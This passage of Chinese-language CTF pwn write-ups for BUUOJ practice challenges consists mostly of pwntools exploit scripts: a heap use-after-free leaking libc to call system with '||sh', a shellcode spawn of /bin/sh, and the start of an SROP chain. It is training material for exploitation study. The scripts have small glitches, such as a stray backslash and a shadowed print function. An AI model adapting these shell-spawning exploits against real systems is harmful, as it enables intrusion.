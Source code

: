 ```python
    io.sendlineafter(b'Index :', str(index).encode())

def print(index):
    io.sendlineafter(b'Your choice :', b'3')
    io.sendlineafter(b'Index :', str(index).encode())

add(0x20, b'/bin/sh')
add(0x20, b'colin')
delete(0)
delete(1)
add(0x8, p32(0x804862B) + p32(elf.got['puts']))
print(0)
puts = u32(io.recv(4))
print(hex(puts))
libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')\
delete(2)
add(0x8, p32(sys) + b'||sh')
print(0)
io.interactive()
```
# buu070-picoctf_2018_shellcode
```python
from pwn import *
context(arch='i386', log_level='debug')
# io = process('./pwn')
io = remote('node4.buuoj.cn', 27164)
elf = ELF('./pwn')
io.sendline(asm(shellcraft.sh()))
io.interactive()
```
# buu071-ciscn_2019_es_7
一道SROP的题目，要熟悉脚本中SROP的构造方式。本题中栈的地址是经过试验得到的，后面能够泄露出一个栈地址，值为输入字符串起始地址+0x118，据此计算栈地址。

注意脚本中的flat方法用于将frame转换为一个个的字节，不能使用str函数，否则原本的1个字节'\x00'会被转换为4个字节'\\x00'。

```python
from pwn import *
context(arch='amd64', log_level='debug')
# io = process('./pwn')
io = remote('node4.buuoj.cn', 27845)
elf = ELF('./pwn')

movrax_3B_ret = 0x4004e2
movrax_F_ret = 0x4004DA
syscall = 0x400517

payload = cyclic(0x10)
payload += p64(0x4004ED)
io.sendline(payload)
io.recv(0x20)
stack_addr = u64(io.recv(8)) - 0x118
print(hex(stack_addr))

payload = b'/bin/sh'.ljust(0x10, b'\x00')
payload += p64(movrax_F_ret)
payload += p64(syscall)

frame = SigreturnFrame()
```